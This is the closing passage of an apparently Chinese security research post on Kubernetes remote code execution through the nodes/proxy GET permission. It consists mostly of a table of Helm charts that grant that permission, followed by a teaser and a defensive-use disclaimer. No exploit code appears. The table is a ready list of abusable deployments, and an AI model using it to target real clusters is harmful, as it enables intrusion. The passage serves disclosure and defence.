leaf="">loft/vcluster-pro:0.2.1-alpha.0</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, WATCH, LIST</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://charts.loft.sh/charts/vcluster-pro-0.2.1-alpha.0.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">loft/vcluster-pro-eks:0.2.1-alpha.0</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, WATCH, LIST</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://charts.loft.sh/charts/vcluster-pro-eks-0.2.1-alpha.0.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">loft/vcluster-pro-k0s:0.2.1-alpha.0</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, WATCH, LIST</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://charts.loft.sh/charts/vcluster-pro-k0s-0.2.1-alpha.0.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">loft/vcluster-pro-k8s:0.2.1-alpha.0</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, WATCH, LIST</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://charts.loft.sh/charts/vcluster-pro-k8s-0.2.1-alpha.0.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">loft/vcluster-runtime:0.0.1-alpha.2</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://charts.loft.sh/charts/vcluster-runtime-0.0.1-alpha.2.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">loft/virtualcluster:0.0.28</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, WATCH, LIST</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://charts.loft.sh/charts/virtualcluster-0.0.28.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">loft/vnode-runtime:0.2.0</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://charts.loft.sh/charts/vnode-runtime-0.2.0.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">netdata/netdata:3.7.158</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST, WATCH</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://github.com/netdata/helmchart/releases/download/netdata-3.7.158/netdata-3.7.158.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">newrelic/newrelic-infra-operator:0.6.1</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://github.com/newrelic/helm-charts/releases/download/newrelic-infra-operator-0.6.1/newrelic-infra-operator-0.6.1.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">newrelic/newrelic-infrastructure:2.10.1</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://github.com/newrelic/helm-charts/releases/download/newrelic-infrastructure-2.10.1/newrelic-infrastructure-2.10.1.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">newrelic/nr-k8s-otel-collector:0.9.10</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://github.com/newrelic/helm-charts/releases/download/nr-k8s-otel-collector-0.9.10/nr-k8s-otel-collector-0.9.10.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">newrelic/nri-prometheus:1.14.1</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST, WATCH</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://github.com/newrelic/helm-charts/releases/download/nri-prometheus-1.14.1/nri-prometheus-1.14.1.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nginx/nginx-service-mesh:2.0.0</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://helm.nginx.com/stable/nginx-service-mesh-2.0.0.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">node-feature-discovery/node-feature-discovery:0.18.3</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://github.com/kubernetes-sigs/node-feature-discovery/releases/download/v0.18.3/node-feature-discovery-chart-0.18.3.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">opencost/opencost:2.5.5</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST, WATCH</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://github.com/opencost/opencost-helm-chart/releases/download/opencost-2.5.5/opencost-2.5.5.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">openfaas/openfaas:14.2.132</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST, WATCH</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://openfaas.github.io/faas-netes/openfaas-14.2.132.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">opentelemetry-helm/opentelemetry-kube-stack:0.13.1</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST, WATCH</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://github.com/open-telemetry/opentelemetry-helm-charts/releases/download/opentelemetry-kube-stack-0.13.1/opentelemetry-kube-stack-0.13.1.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">opentelemetry-helm/opentelemetry-operator:0.102.0</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://github.com/open-telemetry/opentelemetry-helm-charts/releases/download/opentelemetry-operator-0.102.0/opentelemetry-operator-0.102.0.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">prometheus-community/prometheus:28.6.0</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST, WATCH</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://github.com/prometheus-community/helm-charts/releases/download/prometheus-28.6.0/prometheus-28.6.0.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">prometheus-community/prometheus-operator:9.3.2</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST, WATCH</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://github.com/prometheus-community/helm-charts/releases/download/prometheus-operator-9.3.2/prometheus-operator-9.3.2.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">rook/rook-ceph:v1.19.0</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST, WATCH</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://charts.rook.io/release/rook-ceph-v1.19.0.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">stevehipwell/fluent-bit-collector:0.19.2</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST, WATCH</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://github.com/stevehipwell/helm-charts/releases/download/fluent-bit-collector-0.19.2/fluent-bit-collector-0.19.2.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">trivy-operator/trivy-operator:0.31.0</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://github.com/aquasecurity/helm-charts/releases/download/trivy-operator-0.31.0/trivy-operator-0.31.0.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">victoriametrics/victoria-metrics-agent:0.30.0</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST, WATCH</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://github.com/VictoriaMetrics/helm-charts/releases/download/victoria-metrics-agent-0.30.0/victoria-metrics-agent-0.30.0.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">victoriametrics/victoria-metrics-operator:0.58.1</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST, WATCH</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://github.com/VictoriaMetrics/helm-charts/releases/download/victoria-metrics-operator-0.58.1/victoria-metrics-operator-0.58.1.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">victoriametrics/victoria-metrics-single:0.29.0</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST, WATCH</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://github.com/VictoriaMetrics/helm-charts/releases/download/victoria-metrics-single-0.29.0/victoria-metrics-single-0.29.0.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">wiz-sec/wiz-sensor:1.0.8834</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET, LIST, WATCH</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://wiz-sec.github.io/charts/wiz-sensor-1.0.8834.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">yugabyte/yugaware:2025.2.0</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://charts.yugabyte.com/yugaware-2025.2.0.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">yugabyte/yugaware-openshift:2025.2.0</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://charts.yugabyte.com/yugaware-openshift-2025.2.0.tgz</span></section></td></tr><tr style="border-top-width: 1px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;margin: 0px;padding: 0px;"><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">zabbix-community/zabbix:7.0.12</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">nodes/proxy</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">GET</span></section></td><td style="border: 1px solid rgb(204, 204, 204);text-align: left;margin: 0px;padding: 6px 13px;"><section><span leaf="">https://github.com/zabbix-community/helm-zabbix/releases/download/zabbix-7.0.12/zabbix-7.0.12.tgz</span></section></td></tr></tbody></table>  
P.S. 在研究这个问题时，我发现了两种其他...**技术**  
...敬请期待...  
  
---  
> Kubernetes Remote Code Execution Via Nodes/Proxy GET Permission  
> 免责声明：本博客文章仅用于教育和研究目的。提供的所有技术和代码示例旨在帮助防御者理解攻击手法并提高安全态势。请勿使用此信息访问或干扰您不拥有或没有明确测试权限的系统。未经授权的使用可能违反法律和道德准则。作者对因应用所讨论概念而导致的任何误用或损害不承担任何责任。  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
